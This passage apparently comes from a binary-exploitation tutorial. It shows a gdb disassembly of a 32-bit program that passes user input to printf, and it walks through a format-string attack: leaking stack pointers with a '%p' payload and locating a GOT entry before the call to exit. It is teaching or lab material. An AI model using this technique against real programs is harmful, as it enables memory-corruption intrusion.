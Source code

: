 ```
   0x5655622f <+59>:    sub    esp,0xc
   0x56556232 <+62>:    lea    eax,[ebp-0x4a]
   0x56556235 <+65>:    push   eax
   0x56556236 <+66>:    call   0x56556030 <printf@plt>
   0x5655623b <+71>:    add    esp,0x10
   0x5655623e <+74>:    lea    eax,[ebp-0x4a]
   0x56556241 <+77>:    mov    edx,eax
   0x56556243 <+79>:    lea    eax,[ebx-0x1ff0]
   0x56556249 <+85>:    mov    ecx,0x6
   0x5655624e <+90>:    mov    esi,edx
   0x56556250 <+92>:    mov    edi,eax
   0x56556252 <+94>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x56556254 <+96>:    seta   al
   0x56556257 <+99>:    setb   dl
   0x5655625a <+102>:   sub    eax,edx
   0x5655625c <+104>:   movsx  eax,al
   0x5655625f <+107>:   test   eax,eax
   0x56556261 <+109>:   je     0x56556288 <main+148>
   0x56556263 <+111>:   lea    eax,[ebp-0x4a]
   0x56556266 <+114>:   mov    edx,eax
   0x56556268 <+116>:   lea    eax,[ebx-0x1fea]
   0x5655626e <+122>:   mov    ecx,0x3
   0x56556273 <+127>:   mov    esi,edx
   0x56556275 <+129>:   mov    edi,eax
   0x56556277 <+131>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x56556279 <+133>:   seta   al
   0x5655627c <+136>:   setb   dl
   0x5655627f <+139>:   sub    eax,edx
   0x56556281 <+141>:   movsx  eax,al
   0x56556284 <+144>:   test   eax,eax
   0x56556286 <+146>:   jne    0x56556215 <main+33>
   0x56556288 <+148>:   sub    esp,0xc
   0x5655628b <+151>:   push   0x0
=> 0x5655628d <+153>:   call   0x56556060 <exit@plt>
End of assembler dump.
```

To do this attack, an attacker needs to first leak an address off of the stack and calculate the address of the GOT entry from the leaked address. To find the address of the GOT entry, set a breakpoint at `main+153`, right before the jump to `exit@plt` so that the value of the GOT entry can be recorded right before exiting. Next, continue execution and leak a few pointers off of the stack, then type "quit" to stop.

```
gef➤  c
Continuing.
%p.%p.%p.%p.%p.%p.%p.%p.
0x32.0xf7fb1580.0x5655620d.0x56555034.(nil).0xf7ffd000.0x70250000.0x2e70252e.
quit
quit

Breakpoint 5, 0x5655628d in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0
$ebx   : 0x56559000  →  0x00003ef8
$ecx   : 0x0
$edx   : 0xffffd100  →  0x00000001
$esp   : 0xffffd170  →  0x00000000
$ebp   : 0xffffd1d8  →  0x00000000
$esi   : 0xffffd194  →  "%p.%p.%p.%p.%p.%p.\n"
$edi   : 0x56557016  →  0x00000a71 ("q\n"?)
$eip   : 0x5655628d  →  <main+153> call 0x56556060 <exit@plt>
```